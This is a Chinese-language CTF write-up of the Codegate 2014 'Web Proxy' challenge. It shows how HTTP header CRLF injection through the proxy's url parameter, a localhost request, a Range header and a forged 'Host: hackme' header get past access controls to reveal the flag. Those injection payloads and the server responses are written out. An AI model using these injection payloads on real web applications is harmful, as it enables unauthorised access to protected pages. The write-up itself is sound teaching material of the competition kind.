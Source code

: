 title: Codegate CTF Preliminary 2014 200 Web Proxy
date: 2014-2-26 2:24
category: web
tags: CodegateCTF, CRLF
slug: codegate_2014_web_200_web_proxy

這題被 **orange** 秒殺了  
我是賽後才解出來的 Orz  
* * *  
  
網址點開是一個 proxy 頁面  
在 input form 輸入網址後  
會將網頁的部分內容和 header 印出來  

打開 source code 可以看到註解有提示  
*<!-- admin/index.php -->*  
嘗試用 proxy load 頁面看看:  
`http://58.229.183.24/188f6594f694a3ca082f7530b5efc58dedf81b8d/admin/index.php`  
> 403 Forbidden  

這題的方向應該很明確了  
透過 proxy 去存取 `admin.php`  
題目的環境是 **apache**  
應該是透過 `.htaccess` 去擋的  
不過似乎沒辦法拿到設定  

先隨便跳轉一個網頁  
`http://58.229.183.24/188f6594f694a3ca082f7530b5efc58dedf81b8d/index.php?url=www.google.com`  
會發現 proxy 是透過參數 `url` 決定轉址頁面  
猜測是透過 `header('Location:'+ $url);` 去做轉址  
如果 `$url` 沒有做過濾  
會有 **HTTP header CRLF injection**  
試試看猜測是否正確:  
```
http://58.229.183.24/188f6594f694a3ca082f7530b5efc58dedf81b8d/index.php?url=www.google.com%2f   
HTTP/1.1%0d%0a  
Host: 123%0d%0a  
%0d%0a  
```
> ...  
> Date: Tue, 25 Feb 2014 19:00:30 GMT  
> Server: gws  
> Content-Length: 261  
> X-XSS-Protection: 1; mode=block  

喔喔 看起來有反應  
還意外發現 google 的 **XSS protect** XD  
這邊我們可以偽造 header 竄改來源了  
但是網站好像有做過濾  
只要包含 `58.229.183.24` 都會被擋下來  
顯示 *Access Denied*  
改嘗試從 **localhost** 去連頁面:  
`url=localhost/188f6594f694a3ca082f7530b5efc58dedf81b8d/admin/`  
> HTTP/1.1 200 OK  
> Date: Tue, 25 Feb 2014 18:49:08 GMT  
> Server: Apache/2.4.6 (Ubuntu)  

如此就繞過 `.htaccess` 的限制了 lol  
由於這個 proxy 只會顯示網頁的部分內容  
在 header 加入 `Range` 可以控制顯示內容範圍  
```  
Host: 123%0d%0a  
Range: bytes=0-100%0d%0a  
%0d%0a  
```  

慢慢dump內容，結果發現...  
> Access Denied  
> \<br> 100  

好吧 看來 code 可能也是有做些存取限制  
嘗試改成 `Host: localhost`  
... fail again  
在這邊卡關了一陣子  
決定還是慢慢把全部內容 dump 出來  
結果發現這一段...  
> $\_SERVER[HTTP_HOST]=="hackme")-->\</body>  
> <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">  

所以改成 `Host: hackme`  
這題就過了  
> hello admin\<br>  
> Password is WH0_IS_SnUS_bI1G_F4N  

flag: `WH0_IS_SnUS_bI1G_F4N`  
